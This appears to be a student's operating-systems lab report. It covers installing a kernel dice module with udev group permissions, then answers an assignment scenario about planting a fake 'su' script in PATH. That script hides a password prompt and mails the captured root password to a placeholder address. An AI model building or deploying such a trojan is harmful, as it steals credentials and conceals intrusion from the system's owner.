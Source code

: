 ﻿# Lab 10

ECE4820 FA2024 Introduction to Operating Systems

518370990004 Jae Heung Park

---

## 1 Project 3: presentations (part 2)

Presentation

## 2 A clean setup

After a couple of hours working in the back of your mum and Mr. Frown you have finally completed
your dice device driver. Although everything is working you have quite enjoyed the process and to have
a feeling of full accomplishment you want to polish your work. For instance you want the module to be
automatically loaded when the system boot ups, and you imagine that if your grandpa had friends with
an account on the same computer they would enjoy playing too.
To solve those questions you need to check the following points:

### Where to copy the dice module for it to be officially known to the kernel?

Kernel module copy path `/lib/modules/` or  
`/lib/modules/$(uname -r)/kernel/drivers/<custom_directory>`
or subdirectory based on their purpose

### What command to run in order to generate the `modules.dep` and map files?

Use `depmod` command to generate dependency map

```shell
depmod -a
```

### How to ensure the dice module is loaded at boot time, and how to pass it options?

Add the module to `/etc/modules` or `/etc/modules-load.d/<filename>.conf`
for some distributions
to ensure it loads at boot.
To pass options, create or edit `/etc/modprobe.d/<module_name>.conf`
with the following content:

```shell
options <module_name> <option1>=<value1> <option2>=<value2>
```

### How to create a new friends group and add grandpa and his friends to it?

First, create a new group. Name will be friends.
Then, add one of OS users to the group.

```shell
sudo groupadd friends
sudo usermod -aG friends <username>
```

### What is udev and how to define rules such that the group and permissions are automatically setup at device creation?

`udev` is Linux device manager. It dynamically control device nodes at `/dev` and handle events.
Define rules by file generation in path `etc/udev/rules.d`, e.g., `10-dice.rules`

```shell
SUBSYSTEM=="<subsystem>", KERNEL=="<device_name>", GROUP="friends", MODE="0660"
```

Then, reload `udev` rules to trigger those

```shell
sudo udevadm control --reload-rules
sudo udevadm trigger
```

## 3 A discreet gambling setup

The challenge is now to get this module on the family computer without anybody noticing it. If someone
tells your mother then both you and your grandpa will get in trouble. So you need a way to get root
access without inputing a wrong password and without knowing it! As it is too risky to open the computer
and take the hard disk to plug it on your own computer you have find another strategy.

### 3.1. Hacking mum?셲 computer

After a bit of thinking you have an interesting idea: on Linux systems the executables can be found in
the PATH, a colon separated list of directories. If more than one binary have the same name, then the one
found first is used. As you know your mum often uses the command su to become root, it thus suffices
to write a simple script called su, place it in a directory of your choice that you then prepend to the PATH
variable. When she will type su it will run your script. To your mum its behaviour should feel similar to
the real su, i.e. prompt for the root password and behave as if a wrong password had been input. In fact
in the background it should send you an email containing the root password and clean up all your traces,
that is delete the script, and reset the PATH to its original value. That way your mum will think she has
made a mistake and will rerun su. That time the correct command will be called and she will gain root
access. Therefore you think of the following points:

### How adjust the PATH, ensure its new version is loaded but then forgotten?

Open `~/.bashrc` or `./zshrc` and add `export PATH=/path/to/directory:$PATH`.
After finish, run `~./bashrc` or `./zshrc` to apply change.

### What is the exact behaviour of `su` when wrong password is input?

When `su` is executed with incorrect password, `perror` will be thrown.

```text
su: Authentication failure
```

Will be printed in terminal.

### When using the read command how to hide the user input?

Use `-s` option to hide input

```shell
read -s <input>
echo
```

### How to send an email from the command line?

CLI based email send requires installation of libraries first.

```shell
sudo apt install mailutils # Linux
brew install mailutils # MacOS
```

This one will be possible

```shell
echo "The root password is: $password" | mail -s "root password" email@site.com
```

Once you have completed this simple script you patiently wait for the email.
